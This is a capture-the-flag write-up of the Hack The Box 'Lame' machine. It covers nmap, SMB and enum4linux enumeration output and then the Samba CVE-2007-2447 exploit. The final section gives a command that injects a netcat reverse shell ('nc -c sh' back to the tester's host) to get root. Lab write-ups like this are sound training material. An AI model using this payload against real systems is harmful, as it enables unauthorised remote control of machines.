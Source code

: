 #+TITLE:Lame write up
#+AUTHOR:Wordir

* Enumeration

as first step we ping the machine ip to see if the host is up , and because we are connected to the host
network with vpn, we can start emumerating the services that runs ont the target ip.
to do this we are going to use Nmap , an opensource software , usually used to perform scan on a network

as we can see we have a lot of service here , ssh (to perform remote connection) , ftp (to exchange file),
smb(server message block also used to share data and file in a network)

** result of the scan here:
#+BEGIN_SRC bash
*sudo nmap -sC -sV -O 10.10.10.3*      

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 09:02 EDT
Nmap scan report for 10.10.10.3
Host is up (0.045s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.36
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
|22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|   2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (90%), Control4 HC-300 home controller (90%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (90%), Dell Integrated Remote Access Controller (iDRAC5) (90%), Dell Integrated Remote Access Controller (iDRAC6) (90%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (90%), Linux 2.4.21 - 2.4.31 (likely embedded) (90%), Linux 2.4.7 (90%), Citrix XenServer 5.5 (Linux 2.6.18) (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|   System time: 2024-03-23T09:03:18-04:00
| smb2-time: Protocol negotiation failed (SMB2)
| clock-skew: mean: 2h00m33s, deviation: 2h49m46s, median: 30s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|  message_signing: disabled (dangerous, but default)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.14 seconds


now because we have multiple services running on multiple ports, we need to test if someone has
a missconfiguration.
#+END_SRC
** FTP (File Transfer Protocol)

as first, when we see a port dedicated to ftp service, we try to login as:

*user:anonymous*
*password:" "*

The purpose of anonymous FTP access is to provide public access to files stored on the server,
often for purposes such as sharing software, documents, or other files with the general public.
However, because it allows anyone to access files without authentication,
anonymous FTP can pose security risks if not properly configured and monitored,
and sometimes it is possible to log in anonymously due to a misconfiguration

so , once we are in the ftp server we can se that we are in passive mode
(the server tells to the client in which port the client needs to connect for recieve or transfer the data )
and we cant list the direcories or even download some file, so for now it's time to chance ouar target service


** SMB(Server Message Block)
to perform a login and communicate with the SMB server we use *smbclient*
The following command will list out all available shares on the target server using anonymous login.

*smbclient -L \\hackthebox.gr -I 10.10.10.3 -N*

hackthebox.gr is the domain, 10.10.10.3 is the ip of the SMB server

*-L* allows you to look at what services are available on a server.

*-N* If specified, this parameter suppresses the normal password prompt from the client to the user.
This is useful when accessing a service that does not require a password.

** Result:

smbclient -L \\hackthebox.gr -I 10.10.10.3 -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful


now it' time for a better enumeration with *enum4linux* 

*** enum4linux:
#+BEGIN_SRC bash
enum4linux -a 10.10.10.3
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Mar 23 10:37:56 2024

 =========================================( Target Information )=========================================

Target ........... 10.10.10.3
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =============================( Enumerating Workgroup/Domain on 10.10.10.3 )=============================


[E] Can't find workgroup/domain



 =================================( Nbtstat Information for 10.10.10.3 )=================================

Looking up status of 10.10.10.3
No reply from 10.10.10.3

 ====================================( Session Check on 10.10.10.3 )====================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+] Server 10.10.10.3 allows sessions using username '', password ''                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
 =================================( Getting domain SID for 10.10.10.3 )=================================
                                                                                                                                                                                                                                                                                                                            
Domain Name: WORKGROUP                                                                                                                                                                                                                                                                                                      
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
 ====================================( OS information on 10.10.10.3 )====================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[E] Can't get OS info with smbclient                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+] Got OS info for 10.10.10.3 from srvinfo:                                                                                                                                                                                                                                                                                
        LAME           Wk Sv PrQ Unx NT SNT lame server (Samba 3.0.20-Debian)                                                                                                                                                                                                                                               
        platform_id     :       500
        os version      :       4.9
        server type     :       0x9a03


 ========================================( Users on 10.10.10.3 )========================================
                                                                                                                                                                                                                                                                                                                            
index: 0x1 RID: 0x3f2 acb: 0x00000011 Account: games    Name: games     Desc: (null)                                                                                                                                                                                                                                        
index: 0x2 RID: 0x1f5 acb: 0x00000011 Account: nobody   Name: nobody    Desc: (null)
index: 0x3 RID: 0x4ba acb: 0x00000011 Account: bind     Name: (null)    Desc: (null)
index: 0x4 RID: 0x402 acb: 0x00000011 Account: proxy    Name: proxy     Desc: (null)
index: 0x5 RID: 0x4b4 acb: 0x00000011 Account: syslog   Name: (null)    Desc: (null)
index: 0x6 RID: 0xbba acb: 0x00000010 Account: user     Name: just a user,111,, Desc: (null)
index: 0x7 RID: 0x42a acb: 0x00000011 Account: www-data Name: www-data  Desc: (null)
index: 0x8 RID: 0x3e8 acb: 0x00000011 Account: root     Name: root      Desc: (null)
index: 0x9 RID: 0x3fa acb: 0x00000011 Account: news     Name: news      Desc: (null)
index: 0xa RID: 0x4c0 acb: 0x00000011 Account: postgres Name: PostgreSQL administrator,,,       Desc: (null)
index: 0xb RID: 0x3ec acb: 0x00000011 Account: bin      Name: bin       Desc: (null)
index: 0xc RID: 0x3f8 acb: 0x00000011 Account: mail     Name: mail      Desc: (null)
index: 0xd RID: 0x4c6 acb: 0x00000011 Account: distccd  Name: (null)    Desc: (null)
index: 0xe RID: 0x4ca acb: 0x00000011 Account: proftpd  Name: (null)    Desc: (null)
index: 0xf RID: 0x4b2 acb: 0x00000011 Account: dhcp     Name: (null)    Desc: (null)
index: 0x10 RID: 0x3ea acb: 0x00000011 Account: daemon  Name: daemon    Desc: (null)
index: 0x11 RID: 0x4b8 acb: 0x00000011 Account: sshd    Name: (null)    Desc: (null)
index: 0x12 RID: 0x3f4 acb: 0x00000011 Account: man     Name: man       Desc: (null)
index: 0x13 RID: 0x3f6 acb: 0x00000011 Account: lp      Name: lp        Desc: (null)
index: 0x14 RID: 0x4c2 acb: 0x00000011 Account: mysql   Name: MySQL Server,,,   Desc: (null)
index: 0x15 RID: 0x43a acb: 0x00000011 Account: gnats   Name: Gnats Bug-Reporting System (admin)        Desc: (null)
index: 0x16 RID: 0x4b0 acb: 0x00000011 Account: libuuid Name: (null)    Desc: (null)
index: 0x17 RID: 0x42c acb: 0x00000011 Account: backup  Name: backup    Desc: (null)
index: 0x18 RID: 0xbb8 acb: 0x00000010 Account: msfadmin        Name: msfadmin,,,       Desc: (null)
index: 0x19 RID: 0x4c8 acb: 0x00000011 Account: telnetd Name: (null)    Desc: (null)
index: 0x1a RID: 0x3ee acb: 0x00000011 Account: sys     Name: sys       Desc: (null)
index: 0x1b RID: 0x4b6 acb: 0x00000011 Account: klog    Name: (null)    Desc: (null)
index: 0x1c RID: 0x4bc acb: 0x00000011 Account: postfix Name: (null)    Desc: (null)
index: 0x1d RID: 0xbbc acb: 0x00000011 Account: service Name: ,,,       Desc: (null)
index: 0x1e RID: 0x434 acb: 0x00000011 Account: list    Name: Mailing List Manager      Desc: (null)
index: 0x1f RID: 0x436 acb: 0x00000011 Account: irc     Name: ircd      Desc: (null)
index: 0x20 RID: 0x4be acb: 0x00000011 Account: ftp     Name: (null)    Desc: (null)
index: 0x21 RID: 0x4c4 acb: 0x00000011 Account: tomcat55        Name: (null)    Desc: (null)
index: 0x22 RID: 0x3f0 acb: 0x00000011 Account: sync    Name: sync      Desc: (null)
index: 0x23 RID: 0x3fc acb: 0x00000011 Account: uucp    Name: uucp      Desc: (null)

user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]

 ==================================( Share Enumeration on 10.10.10.3 )==================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME

[+] Attempting to map shares on 10.10.10.3                                                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                            
//10.10.10.3/print$     Mapping: DENIED Listing: N/A Writing: N/A                                                                                                                                                                                                                                                           
//10.10.10.3/tmp        Mapping: OK Listing: OK Writing: N/A
//10.10.10.3/opt        Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:                                                                                                                                                                                                                                                                                              
                                                                                                                                                                                                                                                                                                                            
NT_STATUS_NETWORK_ACCESS_DENIED listing \*                                                                                                                                                                                                                                                                                  
//10.10.10.3/IPC$       Mapping: N/A Listing: N/A Writing: N/A
//10.10.10.3/ADMIN$     Mapping: DENIED Listing: N/A Writing: N/A

 =============================( Password Policy Information for 10.10.10.3 )=============================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            

[+] Attaching to 10.10.10.3 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] LAME
        [+] Builtin

[+] Password Info for Domain: LAME

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: Not Set
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set



[+] Retieved partial password policy with rpcclient:                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
Password Complexity: Disabled                                                                                                                                                                                                                                                                                               
Minimum Password Length: 0


 ========================================( Groups on 10.10.10.3 )========================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+] Getting builtin groups:                                                                                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting builtin group memberships:                                                                                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting local groups:                                                                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting local group memberships:                                                                                                                                                                                                                                                                                       
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting domain groups:                                                                                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting domain group memberships:                                                                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
 ===================( Users on 10.10.10.3 via RID cycling (RIDS: 500-550,1000-1050) )===================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[I] Found new SID:                                                                                                                                                                                                                                                                                                          
S-1-5-21-2446995257-2525374255-2673161615                                                                                                                                                                                                                                                                                   

[+] Enumerating users using SID S-1-5-21-2446995257-2525374255-2673161615 and logon username '', password ''                                                                                                                                                                                                                
                                                                                                                                                                                                                                                                                                                            
S-1-5-21-2446995257-2525374255-2673161615-500 LAME\Administrator (Local User)                                                                                                                                                                                                                                               
S-1-5-21-2446995257-2525374255-2673161615-501 LAME\nobody (Local User)
S-1-5-21-2446995257-2525374255-2673161615-512 LAME\Domain Admins (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-513 LAME\Domain Users (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-514 LAME\Domain Guests (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1000 LAME\root (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1001 LAME\root (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1002 LAME\daemon (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1003 LAME\daemon (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1004 LAME\bin (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1005 LAME\bin (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1006 LAME\sys (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1007 LAME\sys (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1008 LAME\sync (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1009 LAME\adm (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1010 LAME\games (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1011 LAME\tty (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1012 LAME\man (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1013 LAME\disk (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1014 LAME\lp (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1015 LAME\lp (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1016 LAME\mail (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1017 LAME\mail (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1018 LAME\news (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1019 LAME\news (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1020 LAME\uucp (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1021 LAME\uucp (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1025 LAME\man (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1026 LAME\proxy (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1027 LAME\proxy (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1031 LAME\kmem (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1041 LAME\dialout (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1043 LAME\fax (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1045 LAME\voice (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1049 LAME\cdrom (Domain Group)

 ================================( Getting printer info for 10.10.10.3 )================================
                                                                                                                                                                                                                                                                                                                            
No printers returned.                                                                                                                                                                                                                                                                                                       


enum4linux complete on Sat Mar 23 10:39:35 2024
#+END_SRC


* Exploit

we find that the anonymous login is active, but we didn't find anything interesting in
the only folder we had access to as an anonymous user (tmp)

so now it's time to take a look to the samba service version, *netbios-ssn Samba smbd 3.0.20-Debian*
we found out that there is a CVE for remote code execution : *CVE-2007-2447*, and
we found a poc at this repo on git hub: [[https://github.com/Ziemni/CVE-2007-2447-in-Python][Poc]]

with these command : *python3 smbExploit.py  10.10.10.3 445 'nc -c sh 10.10.14.36 4444'* 

we spawned a shell as root, and we found the root flag and the user flag
